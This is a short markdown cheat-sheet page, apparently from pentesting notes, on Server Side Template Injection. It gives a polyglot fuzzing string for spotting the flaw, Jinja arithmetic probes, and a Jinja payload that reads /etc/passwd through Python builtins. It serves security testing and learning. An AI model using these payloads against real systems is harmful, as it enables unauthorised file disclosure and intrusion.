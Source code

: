 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# SSTI (Server Side Template Injection)

## Identify the vulnerability

_<mark style="color:green;">Polyglot</mark>_ is commonly used in template expressions fuzzing. If an error occurs it might be vulnerable and also can be to identify the template engine in use.

```
${{<%[%'"}}%\.
```

## Basic Injection

### Jinja - mathematical equation

```django
{{7*7}}
{{7*'7'}}
{{4*4}}[[5*5]]
```

### Jinja - file read

```django
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```
